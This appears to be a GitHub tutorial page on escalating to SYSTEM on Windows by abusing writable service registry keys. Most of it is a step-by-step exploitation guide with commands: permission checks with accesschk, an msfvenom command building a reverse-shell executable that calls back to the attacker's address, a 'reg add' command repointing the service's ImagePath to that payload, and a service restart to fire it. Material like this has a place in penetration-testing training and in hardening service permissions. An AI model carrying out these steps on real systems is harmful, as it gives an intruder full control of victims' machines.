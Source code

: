 # **Escalation via Insecure Registry Permissions**

### 🔍 What is it?

When a Windows service is created, a registry key is added at:

```
KEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
```

This key includes information like the **ImagePath** (the path to the executable the service runs).

If a user (other than an admin) has **write permissions** to this registry key, they can **modify the ImagePath** to point to a malicious executable — gaining elevated access when the service starts.

here you can see one service with details and ImagePath

<img width="892" height="352" alt="image" src="https://github.com/user-attachments/assets/f7c2a3b6-3443-49b2-bfe8-084102153111" />

## **Step-by-Step Exploitation Guide**

### **1. Find Vulnerable Service**

Run **WinPEAS** or **PowerUp.ps1** to find services with weak permissions:

<img width="903" height="71" alt="image" src="https://github.com/user-attachments/assets/0dd20912-e4b8-4a24-8e3e-40f062f16698" />

*(Example: Found service `regsvc`* 

### **2.** Check Registry Permissions

Run this to check if you have read/write access to the registry key:

```bash
accesschk.exe /accepteula -uvwqk "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc"
```

Look for `W` write access for groups like:

- `Users`
- `Everyone`
- `NT AUTHORITY\INTERACTIVE` (means any logged-in user can modify it)

Then Check if you can start/stop the service:

```
accesschk.exe /accepteula -ucqv user regsvc
```

✅ **You need:**

- **`SERVICE_START`**
- **`SERVICE_STOP`**

### **3. Check Current ImagePath**

View the current executable path:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc"
```

Note the **`ImagePath`** value.

### **4. Create Malicious Payload**

Generate a reverse shell:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o evil.exe
```

Upload to victim machine (e.g., **`C:\Temp\evil.exe`**).

### **5. Modify the Registry**

Change the ImagePath to your payload:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\evil.exe" /f
```

### **6. Trigger the Payload**

Restart the service:

```
net stop regsvc
net start regsvc
```

🎉 **You should receive a SYSTEM shell!**
